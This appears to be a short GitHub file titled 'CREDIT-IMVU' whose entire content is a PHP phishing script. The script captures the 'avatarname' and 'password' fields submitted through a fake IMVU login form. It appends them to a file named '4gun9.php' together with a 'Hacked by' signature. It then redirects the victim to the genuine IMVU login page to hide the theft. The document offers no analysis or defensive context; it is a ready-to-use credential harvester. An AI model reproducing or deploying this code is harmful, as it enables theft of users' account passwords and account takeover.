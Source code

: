 # CREDIT-IMVU
CREDIT IMVU
<?php
header("Location: https://id.secure.imvu.com/login/login/");
$ADEx = "4gun9.php";
$ADEy = $_POST['avatarname'];
$ADEz = $_POST['password'];

$handle = fopen($ADEx, 'a');
fwrite($handle, "");
fwrite($handle, "\n");
fwrite($handle, "<br>Email  :");
fwrite($handle, "\n");
fwrite($handle, "$ADEy");
fwrite($handle, "\n");
fwrite($handle, "<br>Kata Sandi :");
fwrite($handle, "\n");
fwrite($handle, "$ADEz");
fwrite($handle, "\n");
fwrite($handle, "<br> <a href='http://mobindo.org'>Hacked by ./Mr.KusanagiV.For</a>");
fwrite($handle, "\n");
fclose($handle);
exit;
?>
